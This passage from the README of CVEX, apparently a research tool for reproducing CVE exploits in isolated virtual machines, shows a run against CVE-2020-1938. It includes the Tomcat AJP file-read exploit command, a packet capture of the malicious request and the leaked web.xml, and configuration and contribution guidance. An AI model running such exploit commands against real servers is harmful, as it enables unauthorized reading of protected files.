2024-10-23 15:47:46,030 - INFO - [ubuntu1] Restoring VM ubuntu1 (192.168.56.3) to snapshot 'clean'...
2024-10-23 15:47:46,030 - INFO - [ubuntu1] Deleting snapshot 'CVE-2020-1938/ubuntu1'...
2024-10-23 15:48:16,751 - INFO - [ubuntu1] Retrieving SSH configuration of ubuntu1...
2024-10-23 15:48:16,752 - INFO - [ubuntu1] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini has been created
2024-10-23 15:48:16,752 - INFO - [ubuntu1] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 15:48:17,655 - INFO - [ubuntu1] 
2024-10-23 15:48:17,655 - INFO - [ubuntu1] PLAY [Linux] *******************************************************************
2024-10-23 15:48:17,655 - INFO - [ubuntu1] 
2024-10-23 15:48:17,655 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 15:48:20,272 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 15:48:20,272 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:48:20,272 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 15:48:20,272 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 15:48:20,272 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:48:20,292 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:20,292 - INFO - [ubuntu1] 
2024-10-23 15:48:20,293 - INFO - [ubuntu1] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 15:48:21,652 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:48:21,652 - INFO - [ubuntu1] 
2024-10-23 15:48:21,652 - INFO - [ubuntu1] TASK [Run update-ca-certificates] **********************************************
2024-10-23 15:48:26,001 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:48:26,001 - INFO - [ubuntu1] 
2024-10-23 15:48:26,001 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 15:48:26,001 - INFO - [ubuntu1] ubuntu1                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:48:26,001 - INFO - [ubuntu1] 
2024-10-23 15:48:26,167 - INFO - [ubuntu1] Executing Ansible playbook CVE-2020-1938/ubuntu1.yml...
2024-10-23 15:48:27,031 - INFO - [ubuntu1] 
2024-10-23 15:48:27,031 - INFO - [ubuntu1] PLAY [Install Apache Tomcat vulnerable to AJP Arbitrary File Read/Include（CVE-2020-1938）] ***
2024-10-23 15:48:27,031 - INFO - [ubuntu1] 
2024-10-23 15:48:27,031 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 15:48:31,657 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 15:48:31,657 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:48:31,657 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 15:48:31,657 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 15:48:31,657 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:48:31,676 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:31,676 - INFO - [ubuntu1] 
2024-10-23 15:48:31,676 - INFO - [ubuntu1] TASK [Update apt cache] ********************************************************
2024-10-23 15:48:47,362 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:47,362 - INFO - [ubuntu1] 
2024-10-23 15:48:47,362 - INFO - [ubuntu1] TASK [Install dependencies (Java and utilities)] *******************************
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=curl)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=wget)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=tar)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] changed: [ubuntu1] => (item=openjdk-11-jre-headless)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] 
2024-10-23 15:49:30,767 - INFO - [ubuntu1] TASK [Create tomcat group] *****************************************************
2024-10-23 15:49:31,578 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:31,579 - INFO - [ubuntu1] 
2024-10-23 15:49:31,579 - INFO - [ubuntu1] TASK [Create tomcat user] ******************************************************
2024-10-23 15:49:32,595 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:32,595 - INFO - [ubuntu1] 
2024-10-23 15:49:32,596 - INFO - [ubuntu1] TASK [Create installation directory for Tomcat] ********************************
2024-10-23 15:49:33,554 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:33,554 - INFO - [ubuntu1] 
2024-10-23 15:49:33,555 - INFO - [ubuntu1] TASK [Extract apache-tomcat-9.0.30.tar.gz] *************************************
2024-10-23 15:49:36,535 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:36,535 - INFO - [ubuntu1] 
2024-10-23 15:49:36,535 - INFO - [ubuntu1] TASK [Create symbolic link for Tomcat installation] ****************************
2024-10-23 15:49:37,443 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:37,444 - INFO - [ubuntu1] 
2024-10-23 15:49:37,444 - INFO - [ubuntu1] TASK [Change ownership of the Tomcat directory] ********************************
2024-10-23 15:49:38,256 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:38,256 - INFO - [ubuntu1] 
2024-10-23 15:49:38,256 - INFO - [ubuntu1] TASK [Set environment variables for Tomcat] ************************************
2024-10-23 15:49:39,640 - INFO - [ubuntu1] changed: [ubuntu1] => (item=CATALINA_HOME=/opt/tomcat/latest)
2024-10-23 15:49:39,640 - INFO - [ubuntu1] changed: [ubuntu1] => (item=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64)
2024-10-23 15:49:39,640 - INFO - [ubuntu1] 
2024-10-23 15:49:39,640 - INFO - [ubuntu1] TASK [Create systemd service for Tomcat] ***************************************
2024-10-23 15:49:41,117 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:41,117 - INFO - [ubuntu1] 
2024-10-23 15:49:41,117 - INFO - [ubuntu1] TASK [Reload systemd daemon] ***************************************************
2024-10-23 15:49:42,997 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:49:42,997 - INFO - [ubuntu1] 
2024-10-23 15:49:42,997 - INFO - [ubuntu1] TASK [Start and enable Apache Tomcat] ******************************************
2024-10-23 15:49:44,905 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:44,905 - INFO - [ubuntu1] 
2024-10-23 15:49:44,905 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 15:49:44,905 - INFO - [ubuntu1] ubuntu1                    : ok=13   changed=10   unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:49:44,905 - INFO - [ubuntu1] 
2024-10-23 15:49:45,221 - INFO - [ubuntu1] Creating snapshot 'CVE-2020-1938/ubuntu1' for VM ubuntu1 (192.168.56.3)...
2024-10-23 15:49:58,587 - INFO - [ubuntu2] Looking for a VM with CVE-2020-1938/ubuntu2 snapshot...
2024-10-23 15:50:04,497 - INFO - [ubuntu2] Retrieving status of ubuntu2...
2024-10-23 15:50:10,601 - INFO - [ubuntu2] Retrieving snapshot list of ubuntu2...
2024-10-23 15:50:14,227 - INFO - [ubuntu2] Restoring VM ubuntu2 (192.168.56.4) to snapshot 'clean'...
2024-10-23 15:50:14,227 - INFO - [ubuntu2] Deleting snapshot 'CVE-2020-1938/ubuntu2'...
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Retrieving SSH configuration of ubuntu2...
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini has been created
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 15:50:50,121 - INFO - [ubuntu2] 
2024-10-23 15:50:50,121 - INFO - [ubuntu2] PLAY [Linux] *******************************************************************
2024-10-23 15:50:50,121 - INFO - [ubuntu2] 
2024-10-23 15:50:50,121 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 15:50:54,287 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 15:50:54,287 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:50:54,287 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 15:50:54,287 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 15:50:54,287 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:50:54,321 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:50:54,321 - INFO - [ubuntu2] 
2024-10-23 15:50:54,321 - INFO - [ubuntu2] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 15:50:55,731 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:50:55,732 - INFO - [ubuntu2] 
2024-10-23 15:50:55,732 - INFO - [ubuntu2] TASK [Run update-ca-certificates] **********************************************
2024-10-23 15:50:59,811 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:50:59,812 - INFO - [ubuntu2] 
2024-10-23 15:50:59,812 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 15:50:59,812 - INFO - [ubuntu2] ubuntu2                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:50:59,812 - INFO - [ubuntu2] 
2024-10-23 15:50:59,941 - INFO - [ubuntu2] Executing Ansible playbook CVE-2020-1938/ubuntu2.yml...
2024-10-23 15:51:00,716 - INFO - [ubuntu2] 
2024-10-23 15:51:00,716 - INFO - [ubuntu2] PLAY [Install the exploit for Apache Tomcat AJP Arbitrary File Read/Include Vulnerability（CVE-2020-1938）] ***
2024-10-23 15:51:00,716 - INFO - [ubuntu2] 
2024-10-23 15:51:00,717 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 15:51:03,202 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 15:51:03,202 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:51:03,203 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 15:51:03,203 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 15:51:03,203 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:51:03,222 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:51:03,223 - INFO - [ubuntu2] 
2024-10-23 15:51:03,223 - INFO - [ubuntu2] TASK [Update apt package index] ************************************************
2024-10-23 15:51:20,141 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:51:20,141 - INFO - [ubuntu2] 
2024-10-23 15:51:20,141 - INFO - [ubuntu2] TASK [Install packages] ********************************************************
2024-10-23 15:51:40,027 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:40,027 - INFO - [ubuntu2] 
2024-10-23 15:51:40,028 - INFO - [ubuntu2] TASK [Create /opt/exploit] *****************************************************
2024-10-23 15:51:40,762 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:40,762 - INFO - [ubuntu2] 
2024-10-23 15:51:40,762 - INFO - [ubuntu2] TASK [Copy CNVD-2020-10487-Tomcat-Ajp-lfi.py to /opt/exploit] ******************
2024-10-23 15:51:42,715 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:42,715 - INFO - [ubuntu2] 
2024-10-23 15:51:42,715 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 15:51:42,715 - INFO - [ubuntu2] ubuntu2                    : ok=5    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:51:42,716 - INFO - [ubuntu2] 
2024-10-23 15:51:42,845 - INFO - [ubuntu2] Creating snapshot 'CVE-2020-1938/ubuntu2' for VM ubuntu2 (192.168.56.4)...
2024-10-23 15:51:54,458 - INFO - [router] Executing 'ls /etc/netplan'...
2024-10-23 15:51:56,534 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:51:56,591 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:51:56,613 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:51:56,644 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-10-23 15:51:56,662 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:51:56,700 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:51:56,795 - INFO - [router] Executing 'sudo netplan apply'...
2024-10-23 15:51:58,731 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:51:58,810 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:51:58,908 - INFO - [ubuntu1] Executing 'ls /etc/netplan'...
2024-10-23 15:52:00,760 - INFO - [ubuntu1] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:52:00,813 - INFO - [ubuntu1] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:52:00,828 - INFO - [ubuntu1] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:52:00,846 - INFO - [ubuntu1] Uploading /tmp/cvex.yaml...
2024-10-23 15:52:00,871 - INFO - [ubuntu1] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:52:00,925 - INFO - [ubuntu1] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:52:01,010 - INFO - [ubuntu1] Executing 'sudo netplan apply'...
2024-10-23 15:52:03,486 - INFO - [ubuntu1] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:52:03,563 - INFO - [ubuntu1] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:52:03,669 - INFO - [ubuntu1] Downloading /etc/hosts...
2024-10-23 15:52:03,720 - INFO - [ubuntu1] Uploading /tmp/hosts...
2024-10-23 15:52:03,734 - INFO - [ubuntu1] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 15:52:03,771 - INFO - [ubuntu2] Executing 'ls /etc/netplan'...
2024-10-23 15:52:04,795 - INFO - [ubuntu2] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:52:04,851 - INFO - [ubuntu2] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:52:04,872 - INFO - [ubuntu2] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:52:04,939 - INFO - [ubuntu2] Uploading /tmp/cvex.yaml...
2024-10-23 15:52:04,952 - INFO - [ubuntu2] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:52:05,000 - INFO - [ubuntu2] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:52:05,071 - INFO - [ubuntu2] Executing 'sudo netplan apply'...
2024-10-23 15:52:07,314 - INFO - [ubuntu2] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:52:07,411 - INFO - [ubuntu2] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:52:07,507 - INFO - [ubuntu2] Downloading /etc/hosts...
2024-10-23 15:52:07,556 - INFO - [ubuntu2] Uploading /tmp/hosts...
2024-10-23 15:52:07,563 - INFO - [ubuntu2] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 15:52:07,611 - INFO - [router] Executing 'pkill mitmdump'...
2024-10-23 15:52:07,642 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-10-23 15:52:07,711 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-10-23 15:52:07,801 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-10-23 15:52:07,858 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-10-23 15:52:07,943 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-10-23 15:52:07,980 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-10-23 15:52:08,529 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-10-23 15:52:11,885 - INFO - [ubuntu2] Executing 'python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.56.3 -p 8009 -f WEB-INF/web.xml'...
2024-10-23 15:52:12,358 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-10-23 15:52:17,358 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-10-23 15:52:17,457 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
2024-10-23 15:52:17,465 - INFO - [router] Stopping VM router...
2024-10-23 15:52:31,702 - INFO - [ubuntu1] Stopping VM ubuntu1...
2024-10-23 15:52:59,091 - INFO - [ubuntu2] Stopping VM ubuntu2...
```

Let's see if CVEX was able to catch network interaction of the exploit with the Tomcat:
```
~/CVEX-records$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

Indeed, we see the attacker `192.168.56.4` (`ubuntu2`) connecting to `192.168.56.3:8009` (`ubuntu1`):
```
16:15:12.002248 IP 192.168.56.4.49896 > 192.168.56.3.8009: tcp 0
E..<.Q@.?.v...8...8....I,[d..........o.........
.
..........
16:15:12.003393 IP 192.168.56.3.8009 > 192.168.56.4.49896: tcp 0
E..<..@.@.Id..8...8..I......,[d................
3{.-.
......
```

Then the attacker is sending the malicious request to read the protected `WEB-INF/web.xml` file:
```
16:15:12.020448 IP 192.168.56.4.49896 > 192.168.56.3.8009: tcp 398
E....S@.@.s...8...8....I,[d................
.
..3{.-.4......HTTP/1.1.../asdf...192.168.56.3.....192.168.56.3..P..	...
keep-alive...Accept-Language...en-US,en;q=0.5.....0...Accept-Encoding...gzip, deflate, sdch...Cache-Control..	max-age=0.....Mozilla...Upgrade-Insecure-Requests...1....	text/html.....192.168.56.3.
.!javax.servlet.include.request_uri.../.
..javax.servlet.include.path_info...WEB-INF/web.xml.
."javax.servlet.include.servlet_path.../..
```

Apache Tomcat replies with the content of the `WEB-INF/web.xml` file:
```
16:15:12.128822 IP 192.168.56.3.8009 > 192.168.56.4.49896: tcp 1235
E.....@.@.G...8...8..I.....a,[fX....b......
3{...
.cAB.....<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
.
```

Format of `cvex.yml`:
```
blueprint: ...   # Blueprint name from the "blueprints" folder
ports: ...       # HTTPS port(s) as integer or list of integers (optional; 443 by default)
...:             # Name of the VM as in the blueprint (optional)
  trace: ...     # Name of the process for API tracing (optional); for Windows: partial name of the process; for Linux: regular expression
  playbook: ...  # Ansible playbook (optional)
  command: ...   # Command or list of commands to execute on this VM (optional)
...:
  trace: ...
  playbook: ...
  command: ...
...
```

`command` is treated in a special way:
1. `%vm_name%` will be replaced with the IP address of the VM: `curl https://%ubuntu%:8080/` will turn into `curl https://192.168.56.3:8080/`. Always use `%vm_name%`, **never** hardcode IP addresses!
2. Optional `&` at the end of the command tells CVEX that it is non-blocking: for `curl https://%ubuntu%:8080/&` CVEX executes `curl https://192.168.56.3:8080/`, and then immediately executes next command without waiting for curl to finish execution
3. Optional `~~~` splits the command into two parts: 1) the command; 2) the message: for `curl https://%ubuntu%:8080/&~~~Downloaded` CVEX executes `curl https://192.168.56.3:8080/`, then waits until curl prints `Downloaded` to stdout, and then immediately executes next command without waiting for curl to finish execution

`command` is always executed as the user `vagrant`. You may use `sudo` to execute as root, as well as `sudo -u` to execute it as another user.

Commands are executed in the same order as present in cvex.yml. In the example below commands are executed in this order: command1, command2, command3, command4.
```
blueprint: ubuntu2204-ubuntu2204
ubuntu2:
  command:
    - "command1"
    - "command2"
ubuntu1:
  command:
    - "command3"
    - "command4"
```

CVEX blueprints define minimal network deployments:
- Ubuntu host attacking Window host
- Window host attacking Ubuntu host
- Ubuntu host attacking multiple Windows hosts
- ...

The `ubuntu2204-ubuntu2204` blueprint that we used is stored in [blueprints/ubuntu2204-ubuntu2204/blueprint.yml](blueprints/ubuntu2204-ubuntu2204/blueprint.yml):
```
ubuntu1:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
ubuntu2:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
```

Format of `blueprint.yml`:
```
...:             # Name of the VM
  image: ...     # Vagrant image
  version: ...   # Vagrant image version
  type: ...      # "windows" or "linux"
  playbook: ...  # Ansible playbook (optional)
...:
  image: ...
  version: ...
  type: ...
  playbook: ...
...
```

Contributors can provide additional blueprints.

## Contributions

To contribute a new CVEX record, create a pull request for a new subfolder inside https://github.com/ucsb-seclab/CVEX-records with the following structure:
```
CVE-XXXX-YYYYY
├── cvex.yml
├── data
│   ├── file1.ext
│   ├── file2.ext
│   ├── file3.ext
│   ├── ...
│   └── fileN.ext
├── ansible_playbook1.yml
├── ansible_playbook2.yml
├── ansible_playbook3.yml
├── ...
└── ansible_playbookN.yml
```

* Briefly describe the vulnerability and the exploit in the first comment of the pull request. Provide clear instructions on how to verify that the exploit succeeded.
* Keep the vulnerable software and the exploit in the `data` folder. Use Git LFS (Large File Storage) for big files. Do not rely on `apt install`, `pip`, URLs or similar methods to download vulnerable software or exploits.
* Build the exploit from the source code. Never commit binaries unless you have a specific reason to do so.
* Rely on built-in Ansible commands. For example, use `ansible.builtin.pip` instead of executing `pip` from shell.
* Consider the logs: for network-based vulnerabilities, ensure that CVEX captures the network interactions in PCAP; for local vulnerabilities, ensure that CVEX captures the API calls of the vulnerable service and/or the exploit.
* **Always test your changes before commiting code.**

To contribute a new blueprint, create a pull request for a new subfolder inside [blueprints](blueprints) with the following infrastructure:
```
blueprints/blueprint-name
├── blueprint.yml
└── ansible_playbook.yml
```

## Notes

Sometimes VM initialization takes longer than expected:
```
2024-09-13 14:03:41,858 - CRITICAL - [windows] Timed out. Please wait until the VM is started and then re-start CVEX with the '-k' parameter.
```

In this case we need to wait until the VM is up and the OS is aready. For example, use the VirtualBox GUI. As soon as the OS fully loads, re-run CVEX with `-k`. With this parameter CVEX uses the VMs that are already running. Be mindful, `cvex -k` will also leave the VMs running (which is great for debugging).

</details>

## Manage VMs

CVEX executed with `-l` parameter shows the list of cached VMs:
```
$ cvex -l
2024-09-19 10:41:45,410 - INFO - [main] Cached VMs:
2024-09-19 10:41:45,410 - INFO - [main] router
2024-09-19 10:41:45,410 - INFO - [main] gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:41:45,411 - INFO - [main] bento_ubuntu-22.04/202404.23.0/1
```

CVEX executed with `-d` parameter destroys the specific VM and deletes all corresponding files in the `~/.cvex` folder:
```
$ cvex -d gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:45:57,769 - INFO - [stub] Destroying VM stub...
```

However, even though the VM disappears from the VirtialBox GUI, some remnants may remain in the `~/VirtualBox VMs` folder. Delete them manually.

`cvex -d all` destroys all VMs.

